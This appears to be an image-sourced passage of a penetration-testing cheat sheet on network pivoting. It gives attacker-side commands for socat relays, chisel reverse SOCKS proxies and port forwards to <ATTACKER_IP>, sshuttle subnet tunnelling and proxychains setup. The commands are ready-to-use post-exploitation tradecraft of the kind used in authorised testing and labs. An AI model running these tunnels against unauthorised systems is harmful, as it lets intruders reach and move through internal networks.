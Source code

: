 ```bash
# Connects the attacker's relay to the internal target.
./socat tcp:<ATTACKER_IP>:<LOCAL_PORT_2> tcp:<TARGET_IP>:<TARGET_PORT>,fork &

# Result: Accessing localhost:<LOCAL_PORT_1> on your attacker machine now connects to the target.

#====================================================================
# 4. CHISEL (Modern Proxy & Port Forwarding over HTTP)
#====================================================================
# Description: A client/server tool written in Go. Excellent for creating fast
# reverse SOCKS proxies. Requires chisel binary on both attacker and target.

# --- Reverse SOCKS Proxy (Most Common Use) ---

# 1. On ATTACKER machine (as server):
# Starts a listener for the compromised host to connect back to.
./chisel server -p <LISTEN_PORT> --reverse &

# 2. On PIVOT machine (as client):
# Connects back to your server and establishes the proxy.
./chisel client <ATTACKER_IP>:<LISTEN_PORT> R:socks &

# NOTE: The SOCKS5 proxy will be created on your attacker machine, typically on 127.0.0.1:1080. Check Chisel's output.

# --- Remote Port Forward ---

# 1. On ATTACKER machine (as server):
./chisel server -p <LISTEN_PORT> --reverse &

# 2. On PIVOT machine (as client):
./chisel client <ATTACKER_IP>:<LISTEN_PORT> R:<LOCAL_PORT>:<TARGET_IP>:<TARGET_PORT> &

# Result: Your attacker machine can now access the target service via localhost:<LOCAL_PORT>.

#====================================================================
# 5. SSHUTTLE (Simulates a VPN via SSH)
#====================================================================
# Description: Forwards traffic for an entire subnet over an SSH connection.
# Requires SSH access and Python on the pivot host. Run only on your attacker machine.

| Type | Command (On Attacker Machine) |
| :--- | :--- |
| **Password Auth** | `sshuttle -r user@<PIVOT_HOST> <TARGET_SUBNET>` |
| **Key-Based Auth** | `sshuttle -r user@<PIVOT_HOST> --ssh-cmd "ssh -i <KEYFILE>" <TARGET_SUBNET>` |

# Error Mitigation:
# If you get a "Broken pipe" error, it's likely because the pivot host is inside the subnet you're forwarding.
# Exclude the pivot host's IP to fix it:
sshuttle ... -x <PIVOT_HOST_IP>

#====================================================================
# 6. USING THE PIVOT
#====================================================================

# --- ProxyChains ---
# Description: Tool to force CLI applications to use a SOCKS proxy.

# 1. Configure the proxy server at the bottom of /etc/proxychains4.conf:
# [ProxyList]
# socks5  127.0.0.1 1080  # For Chisel
# socks4  127.0.0.1 1337  # For an SSH -D proxy
```